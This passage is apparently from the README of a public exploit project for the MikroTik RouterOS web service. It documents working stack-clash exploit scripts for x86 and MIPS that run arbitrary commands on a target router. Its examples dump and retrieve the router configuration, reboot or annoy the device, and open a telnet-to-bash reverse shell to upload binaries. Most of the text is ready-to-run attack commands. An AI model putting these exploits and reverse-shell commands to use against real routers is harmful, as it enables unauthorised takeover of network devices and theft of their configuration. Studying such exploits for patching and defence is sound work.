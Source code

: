 ### Export configs  
You can execute command in Mikrotik console with `/nova/bin/info`.  
Eg: `/nova/bin/info "/system reboot"` will reboot the system.  
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "/nova/bin/info '/export' > /ram/winbox.idx"
$ sleep 20 # (it's a bit slow to execute /export command)
$ curl -s http://192.168.8.1/winbox/index
```

## StackClash_mips  
Stack clash exploit using two threads with ROP chain + shell code to run bash commands  
On mips version of www the stack is RWX, so we can jump to the stack.

You can run the same bash command as the x86 version.   

### LCD  
Funny command  
```
$ ./tools/getROSbin.py 6.38.4 mipsbe /nova/bin/www www_binary
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "echo hello world > /dev/lcd"
```
![image](https://github.com/BigNerd95/Chimay-Red/raw/master/docs/screen_image.jpg)  

### Super Mario sound
Do not do it! ;-P
```
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "while [ true ]; do /nova/bin/info ':beep frequency=660 length=100ms;:delay 150ms;:beep frequency=660 length=100ms;:delay 300ms;:beep frequency=660 length=100ms;:delay 300ms;:beep frequency=510 length=100ms;:delay 100ms;:beep frequency=660 length=100ms;:delay 300ms;:beep frequency=770 length=100ms;:delay 550ms;:beep frequency=380 length=100ms;:delay 575ms;:beep frequency=510 length=100ms;:delay 450ms;:beep frequency=380 length=100ms;:delay 400ms;:beep frequency=320 length=100ms;:delay 500ms;:beep frequency=440 length=100ms;:delay 300ms;:beep frequency=480 length=80ms;:delay 330ms;:beep frequency=450 length=100ms;:delay 150ms;:beep frequency=430 length=100ms;:delay 300ms;:beep frequency=380 length=100ms;:delay 200ms;:beep frequency=660 length=80ms;:delay 200ms;:beep frequency=760 length=50ms;:delay 150ms;:beep frequency=860 length=100ms;:delay 300ms;:beep frequency=700 length=80ms;:delay 150ms;:beep frequency=760 length=50ms;:delay 350ms;:beep frequency=660 length=80ms;:delay 300ms;:beep frequency=520 length=80ms;:delay 150ms;:beep frequency=580 length=80ms;:delay 150ms;:beep frequency=480 length=80ms;:delay 500ms;'; done"
```

### Upload binaries
To upload `busybox-mips` in `/ram/busybox`  
In a shell:
```
$ wget https://busybox.net/downloads/binaries/1.28.1-defconfig-multiarch/busybox-mips  
$ { echo "echo Uploading..."; hexdump -v -e '"echo -e -n " 1024/1 "\\\\x%02X" " >> /ram/busybox\n"' busybox-mips | sed -e "s/\\\\\\\\x  //g"; } | nc -l -q 0 -p 1234
```  
In another shell (note that this is the reverse shell command):
```
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f"
```
and wait until the connection automatically close.  
(Once the file is uploaded, run again reverse shell (this time only listening with `nc -l -p 1234`) and you will find busybox inside `/ram/`)
